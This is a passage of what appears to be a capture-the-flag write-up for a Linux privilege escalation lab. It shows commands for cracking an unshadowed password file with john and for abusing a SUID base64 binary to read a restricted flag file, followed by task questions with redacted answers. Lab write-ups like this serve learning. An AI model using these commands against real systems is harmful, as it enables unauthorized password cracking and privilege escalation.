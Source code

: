 
- Now that we have our unshadowed file we can run john to crack the password:

`john --wordlist=</path/to/wordlist.txt> <unshadowed-file.txt>`

![password cracked](../../images/screenshots/linux-privilege-escalation/task7/user2-cracked.png)


- To see the cracked password at anytime just use:

`john --show <unshadowed-file.txt>`


- We will now use the Base64 exploit one more time to view our flag3.txt file that we do not have permissions for:

```
LFILE=file_to_read
./base64 "$LFILE" | base64 --decode
```

![flag 3 found](../../images/screenshots/linux-privilege-escalation/task7/flag3.png)



------------------------------------------------------

## **Task 8** Capabilities
[GTFOBins](https://gtfobins.github.io) has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.

**Task Questions:**
1. How many binaries have set capabilities?  
   - Answer: **[REDACTED - numeric value]**
2. What other binary can be used through its capabilities?  
   - Answer: **[REDACTED - binary name]**
3. What is the content of the flag4.txt file?  
   - Answer: **[REDACTED - flag format: THM-XXXXXXX]**
